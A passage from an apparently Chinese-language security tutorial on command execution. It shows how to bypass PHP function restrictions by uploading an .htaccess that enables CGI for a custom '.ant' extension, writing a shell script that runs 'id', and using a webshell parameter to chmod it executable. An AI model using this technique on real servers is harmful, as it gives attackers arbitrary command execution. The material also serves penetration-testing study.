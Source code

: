 我们首先在当前目录创建 .htaccess 文件，写入如下：

```php
Options +ExecCGI
AddHandler cgi-script .ant
```

然后新建 shell.ant 文件，写入要执行的命令：

```php
#!/bin/sh
echo Content-type: text/html
echo ""
echo&&id
```

![image-20211126230245605](image/命令执行/image-20211126230245605.png)

用php的chmod()函数给shell.ant文件添加可执行权限

```php
?ant=chmod('shell.ant',0777);
```

![image-20211126230347080](image/命令执行/image-20211126230347080.png)

添加完可执行权限后访问shell.ant文件便可成功执行命令：

![image-20211126230546955](image/命令执行/image-20211126230546955.png)
